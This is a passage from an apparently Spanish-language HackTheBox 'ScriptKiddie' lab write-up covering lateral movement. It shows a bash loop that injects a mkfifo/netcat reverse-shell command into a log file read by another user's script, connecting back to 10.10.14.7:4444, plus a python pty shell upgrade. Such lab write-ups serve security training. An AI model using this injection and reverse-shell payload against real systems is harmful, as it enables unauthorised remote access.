 ```bash
> cat hackers | cut -d' ' -f3-
es una prueba

# Al añadir el guión detras del campo 3 nos saca del campo 3 en adelante
```

Por lo tanto ahí podríamos aprovechar e intentar inyectar comandos de la siguiente forma.

Tengamos en cuenta que además de eso el archivo hackers cuando le metemos data rápidamente se elimina por el `echo -n > $log`

Asique voy a crear un pequeño script en bash para que cada vez que lo ejecute se meta la data que yo tengo en mi script en el archivo hackers.

```bash
# Script para la Inyección de Comandos, intentaremos obtener una rev shell 
--------------------------------------------------------------------------
#!/bin/bash

while true; do
    echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 4444 >/tmp/f #" > /home/kid/logs/hackers 
done
```
El script cogerá del 3 en adelante.

Abrimos un oyente de netcat en elpuerto 4444, asiganmos permisos y lo ejecutamos.

![](/assets/images/HTB/ScriptKiddie-HackTheBox/lateral.webp)

Y tenemos conexión en el netcat como el usuario 

![](/assets/images/HTB/ScriptKiddie-HackTheBox/nc.webp)

Y ya nos hemos convertido en el usuario pwn.

Para tener la shell un poco más funcional lanzo el comando:

<span style="color:red">python3 -c ´import pty;pty.spawn("/bin/bash")´</span>

A continuación toca escalar privilegios al usuario root.


## Escalada Vertical - Usuario root [😎](#root) {#root}
